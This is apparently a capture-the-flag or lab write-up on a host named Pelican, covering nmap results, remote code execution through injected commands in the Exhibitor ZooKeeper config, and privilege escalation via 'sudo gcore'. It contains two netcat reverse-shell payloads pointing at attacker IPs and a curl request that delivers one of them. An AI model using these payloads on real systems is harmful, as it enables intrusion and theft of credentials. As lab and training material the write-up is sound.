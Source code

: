 _____

> [!info]
> IP=192.168.166.98

# Nmap 
| PORT    | STATE | SERVICE          |
|---------|-------|------------------|
| 22/tcp  | open  | ssh              |
| 139/tcp | open  | netbios-ssn      |
| 445/tcp | open  | microsoft-ds     |
| 631/tcp | open  | ipp              |
| 2181/tcp| open  | eforward         |
| 2222/tcp| open  | EtherNetIP-1     |
| 8080/tcp| open  | http-proxy       |
| 8081/tcp| open  | blackice-icecap  |


```python
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp  open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods:
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
8080/tcp open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.190.98:8080/exhibitor/v1/ui/index.html
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -4h19m49s, deviation: 2h53m12s, median: -5h59m50s
| smb2-time:
|   date: 2024-02-02T15:47:19
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2024-02-02T10:47:19-05:00
```

## 139, 445 - SMB
![[Pasted image 20240203191223.png]]

## 631 - CUPS
![[Pasted image 20240203191419.png]]

## 8080 - http

![[Pasted image 20240203191546.png]]

## 8081 - Exhibitor for ZooKeeper

![[Pasted image 20240203192324.png]]

### Exhibitor Web UI 1.7.1 - Remote Code Execution
https://www.exploit-db.com/exploits/48654

```txt
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
```


```bash
curl -X POST -d @data.json http://192.168.166.98:8080/exhibitor/v1/config/set
```

```json
{
  "zookeeperInstallDirectory": "/opt/zookeeper",
  "zookeeperDataDirectory": "/opt/zookeeper/snapshots",
  "zookeeperLogDirectory": "/opt/zookeeper/transactions",
  "logIndexDirectory": "/opt/zookeeper/transactions",
  "autoManageInstancesSettlingPeriodMs": "0",
  "autoManageInstancesFixedEnsembleSize": "0",
  "autoManageInstancesApplyAllAtOnce": "1",
  "observerThreshold": "0",
  "serversSpec": "1:exhibitor-demo",
  "javaEnvironment": "$(nc -e /bin/sh 192.168.45.182 4444 &)",
  "log4jProperties": "",
  "clientPort": "2181",
  "connectPort": "2888",
  "electionPort": "3888",
  "checkMs": "30000",
  "cleanupPeriodMs": "300000",
  "cleanupMaxFiles": "20",
  "backupPeriodMs": "600000",
  "backupMaxStoreMs": "21600000",
  "autoManageInstances": "1",
  "zooCfgExtra": {
    "tickTime": "2000",
    "initLimit": "10",
    "syncLimit": "5",
    "quorumListenOnAllIPs": "true"
  },
  "backupExtra": {
    "directory": ""
  },
  "serverId": 1
}
```


# PrivEsc
```bash
sudo gcore $PID
```


![[Pasted image 20240203193740.png]]

```bash
sudo gcore 497
```

![[Pasted image 20240203194014.png]]








